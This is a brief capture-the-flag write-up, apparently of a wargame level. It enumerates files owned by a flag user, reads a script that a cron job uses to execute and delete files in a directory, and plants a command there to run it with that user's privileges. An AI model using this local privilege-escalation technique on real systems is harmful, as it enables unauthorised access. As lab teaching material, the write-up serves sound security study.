 `ls` returns nothing

`find / -user flag05 2>/dev/null` </br>
finds: </br>
`/usr/sbin/openarenaserver` </br>
`/rofs/usr/sbin/openarenaserver`

`cd /usr/sbin && ls -l openarenaserver` </br>
gives: </br>
`-rwxr-x---+ 1 flag05 flag05 94 Mar  5  2016 openarenaserver`

The file has ACLs extended permissions. We can do `getfacl openarenaserver` to see them.</br>
Doesn't seems to be helpful here.

`cat openarenaserver` </br>
For each file in `/opt/openarenaserver/` it will execute it then supress it.

`Invoking a Bash shell with the -x option causes each shell command to be printed before it is executed.` </br>
https://docs.actian.com/vector/4.2/index.html#page/SysAdmin/Bash_Shell_-x_Option.htm
`ulimit: user limits - limit the use of system-wide resources. -t The maximum amount of cpu time in seconds.`

We can't execute `openarenaserver` however the files I created to test stuff in `/opt/openarenaserver/` disappeared after a while, `openarenaserver` seems to be launched by a cronjob or something.

Creating a file with `echo "getflag" > /opt/openarenaserver/getflag` and waiting for the program to be launch didn't do anything. Maybe redirect the output somewhere can work.

`"getflag > /tmp/prout" > /opt/openarenaserver/getflag` then `cat /tmp/prout` did the trick

